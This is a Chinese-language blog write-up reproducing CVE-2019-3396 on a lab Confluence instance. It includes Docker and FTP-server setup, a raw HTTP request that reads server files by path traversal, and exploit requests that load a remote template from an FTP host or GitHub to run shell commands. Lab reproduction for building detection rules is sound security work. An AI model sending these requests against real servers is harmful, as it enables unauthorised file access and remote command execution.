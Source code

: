 ```yaml
---
layout:     post
title:      【复现】Confluence路径穿越与命令执行漏洞
subtitle:   Confluence路径穿越与命令执行漏洞
date:       2019-09-20
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - Confluence
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。

## 0x00 漏洞介绍
* 漏洞名称：Confluence 路径穿越与命令执行漏洞
* CVE编号：CVE-2019-3396
* 发布时间：2019-04-05
* 漏洞说明：Confluence Server 与 Confluence Data Center 中的 Widget Connector 存在服务端模板注入漏洞，攻击者构造特定请求可远程遍历服务器任意文件，甚至实现远程代码执行攻击。
* 影响范围：Confluence Server、Confluence Data Center
* 修复建议：目前官方已修复该漏洞，请升级到最新版

## 0x01 环境搭建
我的vulhub是老版本的，所以没有Confluence环境，我在Github找到了Confluence的docker-compose.yml：
```
version: '2'
	services:
	  web:
	    image: vulhub/confluence:6.10.2
	    ports:
	      - "8090:8090"
	    depends_on:
	      - db
	  db:
	    image: postgres:10.7-alpine
	    environment: 
	    - POSTGRES_PASSWORD=postgres
	    - POSTGRES_DB=confluence
```

保存下来，通过以下命令启动Confluence环境：
```
docker-compose up -d
```

访问10.20.40.96:8090，开始安装，选择Trial Installation后点击Next：
![图片](../../../../img/Confluence_rce_1.png)
这里需要去申请一个教育版的证书key:
![图片](../../../../img/Confluence_rce_2.png)
选择证书的时候需要注意选择Server版本的：

![图片](../../../../img/Confluence_rce_3.png)

输入License Key之后点击Next进入下一步，然后就会验证License Key，验证通过后开始安装，安装等待了五分钟，显示以下界面安装成功：
![图片](../../../../img/Confluence_rce_4.png)

### 搭建FTP Server
这里为了方便我使用python快速搭建FTP Server。
安装python ftp库：
```
pip3 install pyftpdlib
```
ftp_server.py代码如下：
```
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer
 
authorizer = DummyAuthorizer()
authorizer.add_anonymous("F:\confluenceTest")
handler = FTPHandler
handler.authorizer = authorizer
server = FTPServer(("0.0.0.0", 21), handler)
server.serve_forever()
```

启动ftp_server.py:
```
python3 ftp_server.py
```
## 0x02 复现
### PoC验证
以读文件来验证漏洞是否存在，漏洞存在返回状态码为200，且存在指定关键词
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

### EXP利用
下面的这个EXP需要用到我们在环境搭建的时候搭建的FTP Server
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 195

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://10.20.40.95/cmd.vm","cmd":"id"}}}
```
可以看到下图成功执行了id命令：
![图片](../../../../img/Confluence_rce_5.png)

如果觉得FTP服务麻烦的也可以使用https服务，我测试的时候也是可以执行命令的，http服务是不行的。
Github地址：[https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm](https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm)
```
POST http://10.20.40.96:8090/rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 247

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm","cmd":"whoami"}}}
```
![图片](../../../../img/Confluence_rce_6.png)

## 0x03 指纹
Confluence有一个非常明显的指纹特征，在响应报文中有两个字段：
* X-Confluence-Cluster-Node
* X-Confluence-Request-Time
## 0x04 总结
这个漏洞我在4月份的时候复现过，当时没有vm文件，所以只复现了读文件。时隔4个月，现在再来复现RCE的时候一开始还是遇到了问题，发包后服务器一直没响应，后来发现是FTP Server代码只开启监听本地，把127.0.0.1改成0.0.0.0就好了。

